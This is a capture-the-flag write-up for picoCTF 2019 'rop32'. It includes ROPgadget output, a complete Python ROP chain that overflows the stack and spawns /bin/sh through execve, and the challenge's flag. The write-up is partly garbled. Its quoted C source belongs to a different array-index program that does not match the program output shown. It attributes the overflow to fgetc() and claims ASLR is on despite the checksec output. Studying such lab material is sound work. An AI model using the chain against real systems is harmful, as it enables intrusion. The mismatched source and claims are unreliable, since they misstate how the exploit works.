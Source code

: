 # PicoCTF19 rop32

## Challenge

Can you exploit the following [program](https://2019shell1.picoctf.com/static/e0fe06487514cf7b6b901d4013225d07/vuln) to get a flag? You can find the program in /problems/rop32 on the shell server. [Source](https://2019shell1.picoctf.com/static/e0fe06487514cf7b6b901d4013225d07/vuln.c).

## Hints

This is a classic ROP to get a shell

## Solution

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FLAG_BUFFER 128

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  puts(buf);
  fflush(stdout);
}

void replaceIntegerInArrayAtIndex(unsigned int *array, int index, int value) {
   array[index] = value;
}

int main(int argc, char *argv[])
{
   int index;
   int value;
   int array[666];
   puts("Input the integer value you want to put in the array\n");
   scanf("%d",&value);
   fgetc(stdin);
   puts("Input the index in which you want to put the value\n");
   scanf("%d",&index);
   replaceIntegerInArrayAtIndex(array,index,value);
   exit(0);
}
```

Let's view the directory:

```bash
samson@pico-2019-shell1:/problems/rop32$ ls -al
total 732
drwxr-xr-x   2 root       root         4096 Sep 28  2019 .
drwxr-x--x 684 root       root        69632 Oct 10  2019 ..
-r--r-----   1 hacksports rop32_0        31 Sep 28  2019 flag.txt
-rwxr-sr-x   1 hacksports rop32_0    661832 Sep 28  2019 vuln
-rw-rw-r--   1 hacksports hacksports    466 Sep 28  2019 vuln.c
```

Same structure as before, let's see if using ROP is the only way to finish this challenge:

```bash
samson@pico-2019-shell1:/problems/rop32$ checksec vuln
[*] '/problems/rop32/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Seems like NX and ALSR are both enabled, so ROP is the only technique we can use to bypass this program.

Let's try some random inputs into the program:

```bash
samson@pico-2019-shell1:/problems/rop32$ ./vuln
Can you ROP your way out of this one?
123
samson@pico-2019-shell1:/problems/rop32$ ./vuln
Can you ROP your way out of this one?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

Just as suspected from the source code of the problem, the `fgetc()` function call causes an overflow.

Given the hint of the program, I assume we also need to pop a shell.

Let's use this tool called [ROPGadget](https://github.com/JonathanSalwan/ROPgadget)

This tool will help us find all gadgets and give it to us in a `pwntools` friendly format.

So lets run:
```bash
$ ROPgadget --binary ./vuln  --ropchain --badbytes 0a
```
We are using the `--badbytes 0a` argument in order to receive an exploint that doesn't contain a new line character as `fgetc()` would discard anything after it causing the ROP Chain to fail.

```
< REDACTED >

Unique gadgets found: 29905

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x8056e65 mov dword ptr [edx], eax ; ret
        [+] Gadget found: 0x806ee6b pop edx ; ret
        [+] Gadget found: 0x8056334 pop eax ; pop edx ; pop ebx ; ret
        [+] Gadget found: 0x8056420 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

        [+] Gadget found: 0x8056420 xor eax, eax ; ret
        [+] Gadget found: 0x807c2fa inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

        [+] Gadget found: 0x80481c9 pop ebx ; ret
        [+] Gadget found: 0x806ee92 pop ecx ; pop ebx ; ret
        [+] Gadget found: 0x806ee6b pop edx ; ret

- Step 4 -- Syscall gadget

        [+] Gadget found: 0x8049563 int 0x80

- Step 5 -- Build the ROP chain

        #!/usr/bin/env python2
        # execve generated by ROPgadget
< REDACTED >
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x08049563) # int 0x80
```

Here is some shortened output from `ROPGadget`

So let's make that into a file `/tmp/rop.py`:

We need to cause the buffer overflow so let's add 16 or more `A`s. 

```python
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = 'A'*20  # buffer is size 16, let's increment by 4 until it works.

p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x80
print p
```

Let's run it and feed it into the program

```bash
samson@pico-2019-shell1:/problems/rop32$ (python /tmp/rop.py;cat) | ./vuln 
Can you ROP your way out of this one?
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{rOp_t0_b1n_sH_01a585a7}
```

## Flag

`picoCTF{rOp_t0_b1n_sH_01a585a7}`
